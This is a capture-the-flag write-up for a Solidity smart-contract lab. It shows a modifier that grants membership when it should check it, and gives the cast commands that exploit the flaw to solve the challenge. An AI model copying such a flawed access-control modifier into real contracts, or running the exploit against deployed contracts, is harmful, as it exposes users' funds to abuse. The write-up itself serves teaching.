 To solve the lab, we need to make *Setup::playerSolved()* return true. Here is the code.
&nbsp;  
&nbsp;  
```solidity
function solvedByPlayer() public {
    playerSolved = bar.beerGlass(msg.sender) >= 1 ? true : false;
}

function isSolved() public view returns(bool){
    return playerSolved;
}
```
&nbsp;  
We first need to call the *solvedByPLayer()* function, because that function will update the state of the *playerSolved()* bool. After that, we can just simply press the *Flag* button on the instance. Let's first look for a function that will modify *beerGlass*.
&nbsp;  
&nbsp;  
```solidity
function register() public payable isHuman{
    // You can register here, but still need the Owner to add you in.
    require(msg.value >= 1e18, "Need 1 ether deposit.");
    balance[msg.sender] += msg.value;
}

function addMember(address _addMember) public isHuman onlyOwner(_addMember){
    require(balance[_addMember] > 0, "You need to deposit some money to become a member.");
    barMember[_addMember] = true;
}

function getDrink() public isHuman onlyMember{
    require(balance[msg.sender] > 0, "You need to deposit some money.");
    require(barMember[msg.sender] == true);
    beerGlass[msg.sender]++;
}
```
&nbsp;  
We have some options. There are *register()*, *addMember()*, and *getDrink()*; based on what we need, we have to call *getDrink()*, but there is a modifier called *onlyMember* and *isHuman*, plus we need our balance to be greater than zero. From the function alone, what we can tell is that to become a member, the *owner* must add the member manually by calling the *addMember()*; we can still call *register()* with the value 1 ether. Let's look at the rest of the code now. &nbsp;  
&nbsp;  
```solidity
modifier isHuman(){
    require(msg.sender == tx.origin, "Only Human Allowed in this Bar!");
    _;
}

modifier onlyOwner(address _addMember) {
    require(owner == msg.sender, "Only Owner can add Member!");
    _;
}

modifier onlyMember() {
    barMember[msg.sender] = true;
    _;
}

receive() external payable{
    balance[msg.sender] += msg.value;
}
```
&nbsp;  
There are 3 modifiers that exist in the contract. The *isHuman()* modifier ensures that the *msg.sender* is the same as *tx.origin*, meaning only EOA can interact with the contract. The *onlyOwner()* has 1 parameter, which is *_addMember*. Now *onlyMember()* modifier is quite different from another modifier, instead of ensuring a condition, it actually sets a condition, especially *msg.sender*; it sets the *barMember[msg.sender]* to become true, this is clearly a flaw by the developer. &nbsp;  
&nbsp;  
Earlier we knew that the *getDrink()* function used this modifier. This means what left now is giving ourselves some balance either by calling the *register()* function or directly sending the contract some balance because it has *receive() external payable* defined there and directly adds the amount to our balance. Okay then, the solution should be &nbsp;  
&nbsp;  
```bash
// get the bar contract address
cast call -r $RPC_URL $SETUP_ADDR "bar()"

// send some money to the contract
cast send -r $RPC_URL --private-key $PK $BAR_ADDR --value 1ether

// get ourselves some drink
cast send -r $RPC_URL --private-key $PK $BAR_ADDR "getDrink()"

// call setup.sol::solvedByPlayer()
cast send -r $RPC_URL --private-key $PK $SETUP_ADDR "solvedByPlayer()"
```
&nbsp;  
After that we just need to click the Flag, and we should've solved the lab.